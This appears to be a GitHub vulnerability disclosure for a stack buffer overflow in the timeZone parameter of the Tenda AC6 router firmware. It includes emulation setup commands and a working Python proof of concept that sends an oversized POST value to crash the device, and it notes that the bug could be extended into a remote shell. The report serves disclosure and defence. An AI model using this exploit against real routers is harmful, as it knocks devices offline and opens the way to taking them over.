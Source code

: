 form\_fast\_setting\_wifi\_set  timeZone
----------------------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/9dd2dd44-e173-4d40-87f2-8e167129aaae)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

  
This function accepts the POST parameter timeZone, does not verify its length, and copies it directly to a local variable on the stack, resulting in a stack overflow. This vulnerability allows an attacker to cause a denial of service (DoS), but of course you can build a payload to get a stable shell to control the device.

![image](https://github.com/user-attachments/assets/e7840daa-e832-43d5-a6d4-04e41c463514)

A vulnerability was found in Tenda AC6 V15.03.05.16. The vulnerability affects the functionality of the /goform/fast\_setting\_wifi\_set file form\_fast\_setting\_wifi\_set. Using the timeZone parameter causes a stack-based buffer overflow. The attack can be launched remotely.

### poc

```text-plain
import requests

# URL
url = "http://192.168.142.100/goform/fast_setting_wifi_set"


# POST
data = {
    "ssid": b"Raining",
    "timeZone": b'Raining'*0x100
}


response = requests.post(url,data=data)

print("Status Code:", response.status_code)
print("Response Body:", response.text)
```
![image](https://github.com/user-attachments/assets/73b652ce-47fd-497e-9cfa-168ec08c6626)


